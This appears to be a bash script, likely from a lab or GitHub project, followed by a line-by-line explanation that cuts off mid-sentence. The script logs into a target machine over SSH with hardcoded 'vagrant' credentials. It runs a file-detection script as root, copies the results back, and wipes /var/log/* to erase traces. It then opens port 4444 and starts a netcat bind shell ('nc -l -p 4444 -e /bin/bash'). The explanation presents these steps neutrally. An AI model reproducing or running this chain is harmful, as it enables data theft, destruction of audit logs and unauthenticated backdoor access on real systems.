 #!/bin/bash

# Script for remote execution on a target machine
set -x # Enable debug mode to display executed commands

# Variables
USERNAME="vagrant" # Username for SSH connection
PASSWORD="vagrant" # Password for SSH connection
TARGET_MACHINE="192.168.1.89" # IP address of the target machine

# Paths and filenames
SCRIPT_PATH="./od/od.bash" # Path to the script to be executed remotely
SCRIPT_NAME="od" # Name of the script to be executed remotely
TMP_PATH="/tmp/od" # Temporary path on the target machine
TMP_NAME="od" # Temporary name for the script on the target machine

# Copy the script to the target machine using SSH
sshpass -p "$PASSWORD" scp "$SCRIPT_PATH" "$USERNAME@$TARGET_MACHINE:$TMP_PATH"

# Modify the script on the target machine to remove Windows carriage return characters and make it executable
sshpass -p "$PASSWORD" ssh "$USERNAME@$TARGET_MACHINE" "sed -i 's/\r$//' $TMP_PATH && chmod +x $TMP_PATH"

# Execute the script on the target machine and store the output
OPERATING_SYSTEM=$(sshpass -p "$PASSWORD" ssh -o StrictHostKeyChecking=no "$USERNAME@$TARGET_MACHINE" "$TMP_PATH")

# If the operating system is Linux
if [ "$OPERATING_SYSTEM" = "l" ]; then
# Copy the additional script to the target machine
sshpass -p "$PASSWORD" scp "./files-detection/dtl.bash" "$USERNAME@$TARGET_MACHINE:/tmp/dtl"

# Modify the additional script on the target machine to remove Windows carriage return characters and make it executable
sshpass -p "$PASSWORD" ssh "$USERNAME@$TARGET_MACHINE" "sed -i 's/\r$//' /tmp/dtl && chmod +x /tmp/dtl"

# Execute the additional script on the target machine and perform necessary operations
sshpass -p "$PASSWORD" ssh "$USERNAME@$TARGET_MACHINE" "cd /tmp && sudo ./dtl && sudo chmod -R 777 /tmp/li"

# Copy the results from the target machine to the local machine
sshpass -p "$PASSWORD" scp -r "$USERNAME@$TARGET_MACHINE:/tmp/li" .

# Clean up temporary files and logs on the target machine
sshpass -p "$PASSWORD" ssh "$USERNAME@$TARGET_MACHINE" "sudo rm -R -f /tmp/dtl /tmp/li /tmp/od /var/log/*"

# Configure firewall rules on the target machine
sshpass -p "$PASSWORD" ssh "$USERNAME@$TARGET_MACHINE" "sudo ufw allow 4444"
sshpass -p "$PASSWORD" ssh "$USERNAME@$TARGET_MACHINE" "sudo ufw enable"
sshpass -p "$PASSWORD" ssh "$USERNAME@$TARGET_MACHINE" "sudo iptables -A INPUT -p tcp --dport 4444 -j ACCEPT"

# Start a netcat listener on the target machine
sshpass -p "$PASSWORD" ssh "$USERNAME@$TARGET_MACHINE" "nc -l -p 4444 -e /bin/bash >/dev/null 2>&1 &"

# Connect to the target machine using netcat
nc "$TARGET_MACHINE" 4444
fi

# If the operating system is Windows
if [ "$OPERATING_SYSTEM" = "w" ]; then
echo "Windows operating system detected."
fi

# Explanation:

1. The script starts with a shebang (`#!/bin/bash`) to indicate that it should be executed by the Bash shell.
2. `set -x` enables the debug mode, which displays the executed commands. This can be helpful for troubleshooting.
3. The script defines variables for the username (`USERNAME`), password (`PASSWORD`), and target machine IP address (`TARGET_MACHINE`).
4. Paths and filenames used in the script are defined with appropriate variable names (`SCRIPT_PATH`, `SCRIPT_NAME`, `TMP_PATH`, `TMP_NAME`).
5. The script uses `sshpass` to copy the script from the local machine to the target machine using SCP (`sshpass -p "$PASSWORD" scp "$SCRIPT_PATH" "$USERNAME@$TARGET_MACHINE:$TMP_PATH"`).
6. The remote script on the target machine is modified to remove Windows carriage return characters (`\r`) and made executable (`chmod +x $TMP_PATH`).
7. The modified script is executed on the target machine, and the output (the operating system) is stored in the `OPERATING_SYSTEM` variable.
8. If the operating system is Linux (`if [ "$OPERATING_SYSTEM" = "l" ]; then`), additional operations are performed:
   - Another script (`dtl.bash`) is copied to the target machine.
   - The script is modified to remove Windows carriage return characters and made executable.
   - The script is executed on the target machine, and necessary operations are performed.
   - Results are copied from the target machine to the local machine.
   - Temporary files and logs on the target machine are cleaned up.
   - Firewall rules are configured to allow incoming connections on port 4444.
   - A netcat listener is started on the target machine.
   - The local machine connects to the target machine using netcat.
9. If the operating system is Windows (`if [ "$OPERATING_SYSTEM" = "w" ]; then`), you can add specific instructions for Windows operations.
10. The script ends with appropriate closing brackets and an `fi` to terminate the if statements.

Note: This is an example documentation for the given script. You should provide m